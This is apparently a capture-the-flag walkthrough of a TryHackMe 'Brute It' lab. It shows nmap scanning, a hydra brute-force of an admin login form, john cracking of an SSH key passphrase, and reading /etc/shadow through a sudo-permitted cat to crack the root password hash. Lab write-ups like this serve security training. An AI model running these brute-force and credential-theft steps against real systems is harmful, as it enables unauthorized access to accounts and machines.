 > # Brute It

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [Task 2 - Reconnaissance](#task-2---reconnaissance)
    - [Task 3 - Getting a shell](#task-3---getting-a-shell)
    - [Task 4 - Privilege Escalation](#task-4---privilege-escalation)

<!-- /TOC -->

## Task 2 - Reconnaissance

Scan the target with `nmap -Pn -A -O`
```
    sudo nmap -Pn 10.10.141.52 -A -O
    [sudo] password for kali: 
    Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-24 22:53 EST
    Nmap scan report for 10.10.141.52
    Host is up (0.25s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
    |   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
    |_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.92%E=4%D=1/24%OT=22%CT=1%CU=42803%PV=Y%DS=2%DC=T%G=Y%TM=63D0A7D
    OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ
    OS:(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O
    OS:3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=
    OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSN
    OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
    OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
    OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
    OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
    OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    TRACEROUTE (using port 143/tcp)
    HOP RTT       ADDRESS
    1   208.50 ms 10.8.0.1
    2   262.57 ms 10.10.141.52

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 37.70 seconds
```
1. How many ports are open?<br>
    **Answer:** 2

1. What version of SSH is running?<br>
    From the above result.<br>
    **Answer:** OpenSSH 7.6p1

1. What version of Apache is running?<br>
    **Answer:** 2.4.29

1. Which Linux distribution is running?<br>
    **Answer:** Ubuntu

1. What is the hidden directory?<br>
    Use `dirb` tool with common.txt in Kali Linux.<br>
    ![](images/1.png)<br>
    **Answer:** /admin

## Task 3 - Getting a shell
1. 
    Use `curl` to get source of this admin page, you will see the username is `admin`.<br>
    ```html
    curl http://10.10.141.52/admin/            

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link rel="stylesheet" href="styles.css">
        <title>Admin Login Page</title>
    </head>
    <body>
        <div class="main">
            <form action="" method="POST">
                <h1>LOGIN</h1>

                
                <label>USERNAME</label>
                <input type="text" name="user">

                <label>PASSWORD</label>
                <input type="password" name="pass">

                <button type="submit">LOGIN</button>
            </form>
        </div>

        <!-- Hey john, if you do not remember, the username is admin -->
    </body>
    </html>
    ```
    Next, use `hydra` and `rockyou.txt` to brute force password for admin.
    ```
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.141.52 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" 
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-24 23:50:18
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.141.52:80/admin/:user=^USER^&pass=^PASS^:F=invalid
    [80][http-post-form] host: 10.10.141.52   login: admin   password: xavier
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-24 23:50:55
    ```
    **Answer:** admin:xavier

1. What is John's RSA Private Key passphrase?<br>
    After login on browser, you will see the web flag and link to `id_rsa`, download this rsa and use `ssh2join` to convert it into `join` format.<br>
    Use `join` to retrieve passphrase
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    rockinroll       (?)     
    1g 0:00:00:00 DONE (2023-01-25 00:07) 11.11g/s 806755p/s 806755c/s 806755C/s rubicon..rock14
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 

    ```
    **Answer:** rockinroll

1. user.txt
    First, change permission of `id_rsa` to 600 with `chmod`.<br>
    Login as `john` using id_rsa and the passphrase above.<br>
    ![](images/2.png)<br>
    <!-- THM{a_password_is_not_a_barrier} -->
    **Answer:** THM{\<redacted>}
    
1. Web flag
    <!-- THM{brut3_f0rce_is_e4sy} -->
    **Answer:** THM{\<redacted>}

## Task 4 - Privilege Escalation
1. What is the root's password?<br>
    With `sudo -l`, user `john` can use `cat` command on root's files without root's password.<br>
    ```
    sudo -l
    Matching Defaults entries for john on bruteit:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User john may run the following commands on bruteit:
        (root) NOPASSWD: /bin/cat
    ```
    At here, we could use `cat` to read /root/root.txt to get the root flag on the target, but I will perform privillege escalation to list /root folder first.<br>

    Use `cat /etc/shadow` to read the root's password hash, then use `john` to crack this hash.<br>
    ```
    john --wordlist=/usr/share/wordlists/rockyou.txt root
    Using default input encoding: UTF-8
    Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 2 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    football         (root)     
    1g 0:00:00:00 DONE (2023-01-25 00:54) 5.263g/s 673.6p/s 673.6c/s 673.6C/s 123456..diamond
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.
    ```
    **Answer:** football

1. root.txt
    Change terminal to root and retrive the flag.<br>
    ![](images/3.png)<br>    
    <!-- THM{pr1v1l3g3_3sc4l4t10n} -->
    **Answer:** THM{\<redacted>}

